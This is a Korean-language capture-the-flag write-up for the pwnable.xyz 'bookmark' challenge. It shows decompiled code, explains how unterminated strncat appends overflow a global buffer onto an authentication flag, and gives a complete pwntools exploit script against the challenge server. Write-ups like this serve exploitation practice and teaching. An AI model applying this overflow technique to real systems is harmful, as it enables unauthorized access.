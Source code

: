 ```yaml
---
title: "[pwnable.xyz]bookmark"
date: 2020-2-1
ctf: Pwnable.xyz
layout: post
---
```


랭킹 1페이지 찍엇당..

우선 바이너리를 보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

메인함수 처음 시작에 `qword_202300` 라는 전역변수에 랜덤값을 넣어준다.

```c
int init_login()
{
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
    exit(1);
  read(fd, &qword_202300, 8uLL);
  return close(fd);
}
```

1번 메뉴에서는 랜덤값을 저장한 변수와 입력한 값을 비교해서 `dword_202308` 변수에 1을 넣어주는데 이를 통해 4번 메뉴에서 win함수를 호출시킬 수 있다. 아마 이 문제의 핵심은 `qword_202300` 를 알아내거나 `dword_202308` 를 0이 아닌 아무 값으로 덮어주면 되는 것이다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 savedregs; // [rsp+10h] [rbp+0h]

  setup();
  init_login();
  puts("Web bookmarks.");
  while ( 1 )
  {
    print_menu();
    read_long();
    switch ( &savedregs )
    {
      case 0u:
        return 0;
      case 1u:
        printf("Password: ", argv);
        if ( qword_202300 == read_long() )
          dword_202308 = 1;
        break;
      case 2u:
        create_url();
        break;
      case 3u:
        argv = bm;
        printf("url: %s\n", bm);
        break;
      case 4u:
        if ( dword_202308 )
        {
          puts("Not Implemented.");
          puts("But here is a reward.");
          win();
        }
        break;
      default:
        puts("Invalid");
        break;
    }
  }
}
```

여기서 bm이라는 전역변수에 값을 써줄 수 있는 곳이다.

```c
int create_url()
{
  void *buf; // ST18_8
  signed int v2; // [rsp+Ch] [rbp-14h]
  char *v3; // [rsp+10h] [rbp-10h]

  printf("Secure or insecure: ");
  read(0, bm, 9uLL);
  if ( strncmp(bm, "http", 4uLL) )
    return puts("Not a valid URL.");
  if ( byte_202204 == 's' )
    v3 = &unk_202205;
  else
    v3 = &byte_202204;
  while ( *v3 == ':' || *v3 == '/' )
    ++v3;
  *v3 = 0;
  printf("Size of url: ", "http");
  v2 = read_long();
  if ( v2 < 0 || v2 > 127 )
    return puts("Too large.");
  buf = malloc(v2);
  read(0, buf, v2);
  return strncat(bm, buf, 0x100uLL);
}
```

`create_url` 함수에서 로직 버그가 터진다. 만약 여기 bm에 strncat으로 이어붙이는데 계속 이어붙일 수 잇다면 bm과 `dword_202308` 의 거리는 264이기 때문에 덮을 수 있을거다.

```
bm = 0x0000000000202200
byte_202204 = 0x0000000000202204
unk_202205 = 0x0000000000202205
qword_202300 = 0x0000000000202300
dword_202308 0x0000000000202308
```

여기서 취약점은 *v3가 ':' 이거나 '/' 이면 ++v3; 해주기 때문에 취약점이 발생한다. 왜냐하면 strncat은 널바이트를 자르고 그 이후로  붙여주기 때문에 *v3 = 0이 안되도록 하면 된다. 그로 인해 ':'나 '/'을 계속 넣어주고 다시 create_url함수를 실행시켜서 문자열을 계속 붙여주면 널바이트부터 이어서 붙여지기때문에 한 3번만 하면  `dword_202308` 변수를 덮을 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30021)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def login(passwd):
	sla('>','1')
	sa(':',passwd)

def create_url(url,size,data):
	sla('>','2')
	sa(':',url)
	sa(':',str(size))
	p.send(data)

def print_url():
	sla('>','3')

def save_url(): # win()
	sla('>','4')

def quit():
	sla('>','0')

create_url('https',127,':'*127)
create_url('https',127,':'*127)
create_url('https',127,':'*127)
#login(str(0x3a3a3a3a3a3a3a3a))
save_url()

p.interactive()
```